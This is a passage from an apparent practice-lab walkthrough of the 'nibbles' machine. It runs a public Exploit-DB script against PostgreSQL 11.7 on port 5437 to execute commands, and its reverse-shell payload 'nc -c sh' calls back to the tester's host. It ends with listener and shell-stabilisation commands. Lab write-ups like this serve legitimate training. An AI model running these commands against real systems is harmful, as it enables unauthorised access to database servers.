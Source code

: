 ![image](https://user-images.githubusercontent.com/67879936/222636400-72550c51-aabc-4cff-8750-0293054d6131.png)

nice, lets go ahead and exploit this vulnerability




<h2>Exploitation Port 5437</h2>

Link to Exploit:https://www.exploit-db.com/exploits/50847

Download this exploit to your machine. 

If you've done that lets exploit hehe


>command: python 50847.py -i 192.168.53.47 -p 5437 -c whoami

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/nibbles]
└─$ python 50847.py -i 192.168.53.47 -p 5437 -c whoami

[+] Connecting to PostgreSQL Database on 192.168.53.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Creating table _740a5da3dccd0aa98def3a31763d31ec
[+] Command executed

postgres

[+] Deleting table _740a5da3dccd0aa98def3a31763d31ec
```
cool, our command got executed successfully. As you can see from the above screenshot we have user ```postgres```. Lets put our reverse shell so we can get a shell back on our machine

payload used:```nc -c sh 192.168.49.53 80```

Be sure to change the IP address to your IP address

>command: python 50847.py -i 192.168.53.47 -p 5437 -c "nc -c sh 192.168.49.53 80"

Before running this ensure you set up your netcat listener

>command: rlwrap nc -nvlp 80

![image](https://user-images.githubusercontent.com/67879936/222638501-bd4e0d4a-0cff-4525-90e7-41c98342b4b2.png)

cool, we got a reverse shell as user  ```postgres```. 

To stabilize your shell,

```
python3 -c "import  pty;pty.spawn('/bin/bash')"
Ctrl + z (To background)
stty raw -echo;fg
export TERM=xterm
```

![image](https://user-images.githubusercontent.com/67879936/222639376-915a0b82-82ce-4660-92e4-fcce2664630c.png)
